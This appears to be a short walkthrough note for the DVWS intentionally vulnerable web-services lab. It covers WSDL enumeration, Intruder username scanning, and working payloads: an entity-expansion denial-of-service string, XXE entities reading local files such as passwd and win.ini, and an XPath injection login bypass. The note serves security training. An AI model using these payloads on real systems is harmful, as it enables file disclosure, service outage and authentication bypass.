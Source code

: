 ### WSDL Enumeration
URL: dvws/vulnerabilities/wsdlenum/service.php?wsdl

check_user_id with value root

### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload


### XML External Entity Injection
URL : /dvws/vulnerabilities/xxe/

[XML Entity Expansion]

```
<!DOCTYPE foo [<!ENTITY xee1 "hacking web apps is fun "><!ENTITY xee2 "&xee1;&xee1;"><!ENTITY xee3 "&xee2;&xee2;"><!ENTITY xee4 "&xee3;&xee3;">]><name>&xee4;</name>
```


[XXE]

```
name=<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///tmp/passwd">]>
<test>&xxe;</test>
 ```
 ```
name=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><test>&xxe;</test>
```

### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php 
* username: foo' or 1=1 or 'a'='a 
* password: bar


